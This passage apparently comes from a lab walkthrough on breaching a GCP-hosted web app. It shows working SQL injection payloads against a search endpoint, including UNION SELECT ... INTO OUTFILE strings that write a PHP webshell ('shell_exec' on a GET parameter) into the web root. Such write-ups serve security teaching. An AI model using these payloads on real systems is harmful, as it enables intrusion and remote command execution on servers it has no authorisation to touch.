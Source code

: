 We have a hit and we can successfully login as `user`

![](infiltrate-gcp-via-webapp-exploitation-4.png)

By analyzing the functionality, we notice that sending POST request with `'` to `/inventory/user/search_result2.php` invokes an error. 

![](infiltrate-gcp-via-webapp-exploitation-5.png)

Send the request to `Burp`. By playing around with different payloads, we find a working one:
```
search=%27+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL--+-
```

![](infiltrate-gcp-via-webapp-exploitation-6.png)

We can try using `sqlmap`, but it will return the same results we already have from `backup.sql`. We can retrieve version of the SQL server

![](infiltrate-gcp-via-webapp-exploitation-7.png)


Let's see if we can write to the web root, and see the output of the executed SQL command. The query below writes the output of `version()` to `/var/www/html/test.txt`
```
search=%27+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,version()+INTO+OUTFILE+'/var/www/html/test.txt'--+-
```

![](infiltrate-gcp-via-webapp-exploitation-8.png)

If we check `test.txt`, we see the command output

![](infiltrate-gcp-via-webapp-exploitation-9.png)

We have to adjust our payload, so it returns only single entry
```
search=nonexist%27+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,version()+INTO+OUTFILE+'/var/www/html/val.txt'--+-
```

Now we can make request to create a PHP webshell
```
search=nonexist%27+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,"<%3fphp+echo+shell_exec($_GET['cmd'])%3b%3f>"+INTO+OUTFILE+'/var/www/html/shell.php'--+-
```

Send the request to create a PHP shell, then we can confirm that webshell works by checking `shell.php?cmd=id`

![](infiltrate-gcp-via-webapp-exploitation-10.png)

It's usually good idea to get a reverse shell that would allow to execute interactive commands, and enumerate the system and potentially other hosts and applications on the network more easily (especially in an on-premises environment). However, in the cloud VM instances often has cloud identities associated with them that allows them to access other cloud resources that form part of the distributed system. 
